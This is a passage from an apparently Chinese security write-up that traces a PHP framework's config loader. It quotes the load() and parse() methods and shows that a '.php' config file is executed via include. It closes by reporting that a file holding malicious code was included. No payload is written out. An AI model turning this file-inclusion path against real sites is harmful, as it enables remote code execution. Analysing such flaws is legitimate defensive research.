

这里就会加载我们的文件

```
public function load(string $file, string $name = ''): array
{
    if (is_file($file)) {
        $filename = $file;
    } elseif (is_file($this->path . $file . $this->ext)) {
        $filename = $this->path . $file . $this->ext;
    }

    if (isset($filename)) {
        return $this->parse($filename, $name);
    }

    return $this->config;
}
```

跟进 parse

```
protected function parse(string $file, string $name): array
{
    $type   = pathinfo($file, PATHINFO_EXTENSION);
    $config = [];
    switch ($type) {
        case 'php':
            $config = include $file;
            break;
        case 'yml':
        case 'yaml':
            if (function_exists('yaml_parse_file')) {
                $config = yaml_parse_file($file);
            }
            break;
        case 'ini':
            $config = parse_ini_file($file, true, INI_SCANNER_TYPED) ?: [];
            break;
        case 'json':
            $config = json_decode(file_get_contents($file), true);
            break;
    }

    return is_array($config) ? $this->set($config, strtolower($name)) : [];
}
```



成功包含了我们含有恶意代码的文件
